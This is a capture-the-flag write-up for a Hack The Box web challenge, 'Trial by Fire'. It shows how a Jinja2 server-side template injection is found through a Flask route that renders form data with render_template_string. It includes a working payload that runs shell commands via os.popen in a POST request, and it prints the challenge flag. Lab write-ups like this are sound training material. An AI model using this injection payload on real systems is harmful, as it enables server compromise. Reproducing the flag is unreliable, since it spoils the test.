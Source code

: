 # 🔥 Trial by Fire - Writeup

**Category:** Web  
**Points:** 50  
**Description:**  
> Deep within the Flame Peaks, a legendary Fire Drake tests the strength and resolve of those who seek the Emberstone. Defeat is expected—but perhaps victory lies not in brute force, but in clever trickery.

---

## 🧩 Reconnaissance

Landing on the page, you’re greeted with a retro-style battle interface. After choosing a warrior name, you enter a turn-based combat scenario against a Fire Drake with **1337 HP**.

Fighting the dragon normally proves fruitless—the damage dealt is minimal and defeat is inevitable.

However, viewing the **page source** reveals a suspicious hint:

```html
Can you read the runes? Perhaps {{ 7 * 7 }} is the key. <!-- SSTI -->
```
The output shows 49 in the rendered page, confirming a Server-Side Template Injection (SSTI) vulnerability.
🔍 Application Behavior

Upon losing a battle, you’re shown a battle report summarizing your stats and outcome. Intercepting the request reveals that data is POSTed to /battle-report.

A closer look at the source shows this route renders user-supplied data directly:
```python
@web.route('/battle-report', methods=['POST'])
def battle_report():
    ...
    REPORT_TEMPLATE = f""" 
        ...
        <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
        ...
    """
    return render_template_string(REPORT_TEMPLATE)
```

Because render_template_string is used on raw form data, and the values aren’t sanitized, this is a textbook SSTI vulnerability.
🛠️ Exploitation

We can inject Python expressions via the damage_dealt field (or others) to execute code server-side.

Intercept the POST request to /battle-report after a battle using Burp Suite (or your preferred tool), and modify it like so:

```
POST /battle-report HTTP/1.1
Host: target

damage_dealt={{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}&
damage_taken=100&
spells_cast=2&
turns_survived=3&
outcome=defeat&
battle_duration=18.116
```

    Note: Use + instead of spaces (e.g., cat+flag.txt) if the application filters certain characters.

Upon submitting the modified request, the flag will be rendered directly into the battle report page under “Damage Dealt”.
🏁 Flag

Flag:

```HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_cce96f85ad54b396cdee745fbe91bf5b}```

